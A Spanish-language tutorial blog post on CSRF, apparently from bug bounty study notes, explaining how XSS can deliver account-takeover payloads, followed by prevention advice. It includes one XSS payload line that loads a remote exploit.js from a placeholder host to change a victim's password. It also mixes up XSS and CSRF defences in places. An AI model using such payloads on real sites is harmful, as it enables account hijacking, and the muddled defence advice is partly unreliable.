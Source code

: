layout: post
title: Cross-Site Request Forgery (CSRF)
tags: web CSRF burpsuite bugbounty CBBH PoC
categories: vulnerabilities 
---

Los ataques CSRF pueden utilizar vulnerabilidades XSS para realizar ciertas consultas y llamadas API a una aplicación web en la que la víctima está actualmente autenticada. Esto permitiría al atacante realizar acciones como usuario autenticado. También puede utilizar otras vulnerabilidades para realizar las mismas funciones, como utilizar parámetros HTTP para ataques.

Un ataque CSRF común para obtener acceso con mayores privilegios a una aplicación web es crear un payload JavaScript que cambie automáticamente la contraseña de la víctima al valor establecido por el atacante. Una vez que la víctima ve el payload en la página vulnerable (por ejemplo, un comentario malicioso que contiene el payload JavaScript CSRF), el cídigo JavaScript se ejecutará automáticamente. Utilizaría la sesión iniciada de la víctima para cambiar su contraseña. Una vez hecho esto, el atacante puede iniciar sesión en la cuenta de la víctima y controlarla.

CSRF También se puede aprovechar para atacar a los administradores y obtener acceso a sus cuentas. Los administradores generalmente tienen acceso a funciones confidenciales, que a veces pueden usarse para atacar y obtener control sobre el servidor back-end (dependiendo de la funcionalidad proporcionada a los administradores dentro de una aplicación web determinada). Siguiendo este ejemplo, en lugar de usar código JavaScript que devolvería la cookie de sesión, cargaríamos un archivo remoto .js( JavaScript), de la siguiente manera:

~~~ html
"><script src=//www.example.com/exploit.js></script>
~~~

El archivo exploit.js contendría el código JavaScript malicioso que cambia la contraseña del usuario. Desarrollar exploit.js en este caso requiere conocimiento del procedimiento de cambio de contraseña de esta aplicación web y APIs. El atacante necesitaría crear un código JavaScript que replicara la funcionalidad deseada y la llevara a cabo automáticamente (es decir, un código JavaScript que cambie nuestra contraseña para esta aplicación web específica).

## Prenvención

Aunque debe haber medidas en el back-end para detectar y filtrar la entrada del usuario, también es siempre importante filtrar y desinfectar la entrada del usuario en el front-end antes de que llegue al back-end, y especialmente si este código puede mostrarse directamente en el lado del cliente sin comunicar con la parte trasera. Se deben aplicar dos controles principales al aceptar la entrada del usuario:

| Tipo | Descripción |
|------|-------------|
| Sanitización | Eliminar caracteres especiales y no estándar de la entrada del usuario antes de mostrarla o almacenarla. |
| Validación | Garantizar que la entrada del usuario enviada coincida con el formato esperado (es decir, el correo electrónico enviado coincida con el formato de correo electrónico) |

Además, también es importante desinfectar la salida mostrada y borrar cualquier carácter especial o no estándar. En caso de que un atacante logre eludir los filtros de validación y desinfección del front-end y back-end, aún así no causará ningún daño en el front-end.

Una vez que desinfectemos y/o validemos la entrada del usuario y la salida mostrada, deberíamos poder prevenir ataques como HTML Injection, XSS o CSRF. Otra solución sería implementar un firewall de aplicaciones web (WAF) , que debería ayudar a evitar intentos de inyección automáticamente. Sin embargo, cabe señalar que las soluciones WAF pueden potencialmente evitarse, por lo que los desarrolladores deben seguir las mejores prácticas de codificación y no simplemente confiar en un dispositivo para detectar/bloquear ataques.

En cuanto a CSRF, muchos navegadores modernos tienen medidas anti-CSRF integradas, que impiden la ejecución automática de códgo JavaScript. Además, muchas aplicaciones web modernas tienen medidas anti-CSRF, incluidos ciertos encabezados e indicadores HTTP que pueden evitar solicitudes automatizadas (es decir, anti-CSRF token o http-only/ X-XSS-Protection). Se pueden tomar otras medidas desde un nivel funcional, como exigir al usuario que ingrese su contraseña antes de cambiarla. Muchas de estas medidas de seguridad se pueden eludir y, por lo tanto, este tipo de vulnerabilidades aún pueden representar una amenaza importante para los usuarios de una aplicación web. Es por eso que estas precauciones sólo deben considerarse como una medida secundaria, y los desarrolladores siempre deben asegurarse de que su código no sea vulnerable a ninguno de estos ataques.